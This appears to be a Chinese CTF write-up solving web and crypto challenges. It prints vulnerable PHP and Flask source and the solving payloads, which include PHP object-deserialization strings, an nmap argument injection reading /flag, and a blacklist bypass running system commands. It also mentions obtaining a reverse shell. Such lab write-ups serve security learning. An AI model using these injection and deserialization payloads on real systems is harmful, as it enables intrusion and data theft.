





web
青龙组
AreUSerialz
<?php
include("flag.php");
highlight_file(__FILE__);
class FileHandler {
protected $op;
protected $filename;
protected $content;
function __construct() {
$op = "1";
$filename = "/tmp/tmpfile";
$content = "Hello World!";
$this->process();
}
public function process() {
if($this->op == "1") {
$this->write();
} else if($this->op == "2") {
$res = $this->read();
$this->output($res);
} else {
$this->output("Bad Hacker!");
}
}
private function write() {
if(isset($this->filename) && isset($this->content)) {
if(strlen((string)$this->content) > 100) {
$this->output("Too long!");
die();
}
$res = file_put_contents($this->filename, $this->content);
if($res) $this->output("Successful!");
else $this->output("Failed!");
} else {
$this->output("Failed!");
}
}
private function read() {
$res = "";
if(isset($this->filename)) {
$res = file_get_contents($this->filename);
}
return $res;
}
private function output($s) {
echo "[Result]: <br>";
echo $s;
}
function __destruct() {
if($this->op === "2")
$this->op = "1";
$this->content = "";
$this->process();
}
}
function is_valid($s) {
for($i = 0; $i < strlen($s); $i++)
if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
return false;
return true;
}
if(isset($_GET{'str'})) {
$str = (string)$_GET['str'];
if(is_valid($str)) {
$obj = unserialize($str);
}
}反序列化，is_valid过滤不可见字符，所以protected类型的属性的序列化字符串包含不可见字符\00，会返回false， php7.1+版本对属性类型不敏感，所以把protected类型改为public就可以了。
$a=new FileHandler();
$a->op=2;
$a->filename='flag.php';
var_dump(serialize($a));
//O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:8:"flag.php";s:7:"content";N;}filejava
下载文件，可以任意文件读取，先看web.xml，然后下载对应的class文件，反编译为java文件，poi-ooxml-3.10，javaxxe，找到文章复现 传送门。按照文章复现。



you_raise_me_up
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from Crypto.Util.number import *
import random
n = 2 ** 512
m = random.randint(2, n-1) | 1
c = pow(m, bytes_to_long(flag), n)
print 'm = ' + str(m)
print 'c = ' + str(c)
# m = 391190709124527428959489662565274039318305952172936859403855079581402770986890308469084735451207885386318986881041563704825943945069343345307381099559075
# c = 6665851394203214245856789450723658632520816791621796775909766895233000234023642878786025644953797995373211308485605397024123180085924117610802485972584499离散对数问题，求指数，用sage解一下，然后转字符串。
m = 391190709124527428959489662565274039318305952172936859403855079581402770986890308469084735451207885386318986881041563704825943945069343345307381099559075
c = 6665851394203214245856789450723658632520816791621796775909766895233000234023642878786025644953797995373211308485605397024123180085924117610802485972584499
n = 2**512
discrete_log(c,mod(m,n))boom
按提示回答三个问题，en5oy，74.0 68.0 31.0，89127561
白虎组
PicDown
文件包含，读到源码。

from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib
app = Flask(__name__)
SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)
@app.route('/')
def index():
return render_template('search.html')
@app.route('/page')
def page():
url = request.args.get("url")
try:
if not url.lower().startswith("file"):
res = urllib.urlopen(url)
value = res.read()
response = Response(value, mimetype='application/octet-stream')
response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
return response
else:
value = "HACK ERROR!"
except:
value = "SOMETHING WRONG!"
return render_template('search.html', res=value)
@app.route('/no_one_know_the_manager')
def manager():
key = request.args.get("key")
print(SECRET_KEY)
if key == SECRET_KEY:
shell = request.args.get("shell")
os.system(shell)
res = "ok"
else:
res = "Wrong Key!"
return res
if __name__ == '__main__':
app.run(host='0.0.0.0', port=8080)找到key，反弹shell，得到flag。

朱雀组
nmap
扫描文件-iL指定文件扫描，-oN结果输出a.txt，访问即可得到flag.
127.0.0.1' -iL /flag -oN a.txt'phpweb
抓包看到是执行函数，构造func=readfile&p=index.php读到源码，命令执行函数被ban了。源码如下
<?php
$disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk", "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
function gettime($func, $p) {
$result = call_user_func($func, $p);
$a= gettype($result);
if ($a == "string") {
return $result;
} else {return "";}
}
class Test {
var $p = "Y-m-d h:i:s a";
var $func = "date";
function __destruct() {
if ($this->func != "") {
echo gettime($this->func, $this->p);
}
}
}
$func = $_REQUEST["func"];
$p = $_REQUEST["p"];
if ($func != null) {
$func = strtolower($func);
if (!in_array($func,$disable_fun)) {
echo gettime($func, $p);
}else {
die("Hacker...");
}
}
?>两个方向，一个反序列化，一个绕过黑名单
$a=new Test();
$a->p='cat /tmp/flagoefiu4r93';
$a->func='system';
var_dump(serialize($a));
//func=unserialize&p=O:4:"Test":2:{s:1:"p";s:22:"cat /tmp/flagoefiu4r93";s:4:"func";s:6:"system";}func=\system&p=cat /tmp/flagoefiu4r93 //黑名单绕过